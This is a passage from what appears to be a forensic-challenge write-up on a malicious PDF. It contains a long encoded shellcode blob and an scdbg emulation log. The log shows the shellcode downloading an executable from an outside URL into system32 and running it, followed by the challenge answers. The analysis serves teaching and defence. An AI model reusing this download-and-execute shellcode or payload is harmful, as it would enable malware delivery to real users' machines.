Q1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtKQ1FrSkNRa0pDUWtBY0FBQUVEQUFFQUFBQXdJQUFBQVFFREFBRUFBQUFCQUFBQUF3RURBQUVBQUFBQkFBQUFCZ0VEQUFFQUFBQUJBQUFBRVFFRUFBRUFBQUFJQUFBQUZ3RUVBQUVBQUFBd0lBQUFVQUVEQU13QUFBQ1NJQUFBQUFBQUFBQU1EQWdrQVFFQTkzSUFCd1FCQVFDN0ZRQUhBQkFBQUUwVkFBZTdGUUFIQUFQK2Y3Si9BQWU3RlFBSEVRQUJBS3lvQUFlN0ZRQUhBQUVCQUt5b0FBZjNjZ0FIRVFBQkFPSlNBQWRVWEFBSC8vLy8vd0FCQVFBQUFBQUFCQUVCQUFBUUFBQkFBQUFBTWRjQUI3c1ZBQWRhVW1vQ1RSVUFCeUtuQUFlN0ZRQUhXTTB1UEUwVkFBY2lwd0FIdXhVQUJ3VmFkUFJORlFBSElxY0FCN3NWQUFlNFNVa3FUUlVBQnlLbkFBZTdGUUFIQUl2NnIwMFZBQWNpcHdBSHV4VUFCM1hxaC81TkZRQUhJcWNBQjdzVkFBZnJDbCs1VFJVQUJ5S25BQWU3RlFBSDRBTUFBRTBWQUFjaXB3QUh1eFVBQi9PbDZ3bE5GUUFISXFjQUI3c1ZBQWZvOGYvL1RSVUFCeUtuQUFlN0ZRQUgvNUNRa0UwVkFBY2lwd0FIdXhVQUIvLy8vNUJORlFBSE1kY0FCeThSQUFjPQ&oeol=VT) to convert it to hex.

The output clearly contained a large NOP sled (90 90 90 90 …).
This is a strong indicator of shellcode, as attackers often prepend NOPs as padding to increase reliability during exploitation.

The extracted decoded binary was saved as paylaod2.bin.

To determine what the shellcode does, I emulated the payload using scdbg, which dynamically analyzes shellcode.

```bash
remnux@remnux:~/malware$ scdbgc /f paylaod2.bin /s -1
Loaded 369 bytes from file paylaod2.bin
Detected straight hex encoding input format converting...
Initialization Complete..
Max Steps: -1
Using base offset: 0x401000

401106	GetProcAddress(GetSystemDirectoryA)
401106	GetProcAddress(WinExec)
401106	GetProcAddress(ExitThread)
401106	GetProcAddress(LoadLibraryA)
4010b1	LoadLibraryA(urlmon)
401106	GetProcAddress(URLDownloadToFileA)
4010d5	GetSystemDirectoryA( c:\windows\system32\ )
4010ee	URLDownloadToFileA(http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe, c:\WINDOWS\system32\a.exe)
4010f5	WinExec(c:\WINDOWS\system32\a.exe)
4010f9	ExitThread(32)

Stepcount 7821
```
This shellcode performs the following actions:

- Loads urlmon.dll
→ Needed for downloading files

- Resolves APIs:
    - URLDownloadToFileA
    - WinExec
    - GetSystemDirectoryA
- Downloads an executable from the following URL:
- http[:]//blog.honeynet.org.my/forensic_challenge/the_real_malware.exe
- Saves it to:
    - c:\WINDOWS\system32\a.exe
- Executes it using WinExec

This is another downloader shellcode, similar to the one used in the CVE-2009-4324 exploit, but pointing to a different malware sample.

✅ **Answer**: http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe

## 📌 Q11. How many CVEs are included in the PDF file?

✅ **Answer**: 5

